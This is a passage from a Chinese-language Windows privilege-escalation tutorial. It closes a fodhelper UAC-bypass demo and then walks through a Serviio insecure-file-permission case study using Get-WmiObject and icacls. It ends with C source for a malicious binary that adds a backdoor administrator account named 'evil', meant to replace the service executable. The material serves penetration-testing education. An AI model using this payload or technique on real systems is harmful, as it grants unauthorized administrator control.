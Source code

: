 设定值并运行后fodhelper.exe文件我们再次看到一个命令行shell：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606443311444-172d7361-c9da-4209-a062-dfd98f199ae1.png)

`whoami /groups` 命令的输出表明这是一个高完整性的命令shell。接下来，我们将尝试更改管理员密码，看看是否可以成功绕过UAC：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606443359576-1d0554a8-b504-4adf-a35e-3c631d346421.png)

密码更改成功，我们已成功绕过UAC！

这次攻击不仅展示了一个很棒的UAC旁路，而且揭示了一个我们可以用来发现类似旁路的过程。

### 不安全的文件权限：serviio案例研究

> https://www.seebug.org/vuldb/ssvid-96964

如前所述，提升Windows系统上权限的一种常见方法是利用以nt authority\system运行的服务上不安全的文件权限。

例如，考虑一个场景，其中软件开发人员创建了一个作为Windows服务运行的程序。在安装过程中，开发人员不保护程序的权限，允许对Everyone组的所有成员进行完全的读写访问。因此，低权限用户可以用恶意程序替换该程序。当服务重新启动或计算机重新启动时，恶意文件将以系统权限执行。

在前面的一节中，我们展示了如何使用tasklist列出正在运行的服务。或者，我们可以将PowerShell `Get-WmiObject` cmdlet与win32服务WMI类一起使用。在本例中，我们将输出管道发送到 `Select-Object` 以显示我们感兴趣的字段，并使用 `Where-Object` 显示正在运行的服务（ `{$\.State -like 'running'}` ）：

```
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
```

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606443858380-a5abf66b-4691-416d-8cfb-ea12a3fc8fe1.png)

基于此输出，servio服务在Program Files目录中安装时非常突出。这意味着服务是用户安装的，软件开发人员负责目录结构以及软件的权限。这些情况使得它更容易出现这种类型的漏洞。

下一步，我们将使用 `icacls` windows实用程序枚举目标服务上的权限。这个实用程序将输出服务的安全标识符（或SIDs），然后输出一个权限掩码，后者在icacls文档中定义。下面列出了最相关的掩码和权限：

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606443937249-fa00d5d8-6a92-4d35-a2f4-787643314673.png)

我们可以运行icacls，将完整的服务名作为参数传递。命令输出将枚举关联的权限：

`icacls "C:\Program Files\Serviio\bin\ServiioService.exe"`![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1606443970668-8113b26f-db39-4306-be11-78e6495ad1c1.png)

ServiioService.exe可执行文件非常有趣。特别是，系统上的任何用户（BUILTIN\Users）都有对它的完全读写访问权限。这是一个严重的漏洞。

为了利用这种漏洞，我们可以使用我们自己的恶意二进制文件替换ServiioService.exe，然后通过重新启动服务或重新启动计算机来触发它。

我们将用一个例子来演示这种攻击。下面的C代码将创建一个名为“evil”的用户，并使用system函数将该用户添加到本地Administrators组。此代码的编译版本将用作我们的恶意二进制文件：

```
#include <stdlib.h>
int main ()
{ 
    int i;
    i = system ("net user evil Ev!lpass /add"); 
    i = system ("net localgroup administrators evil /add");
    return 0;
}
```
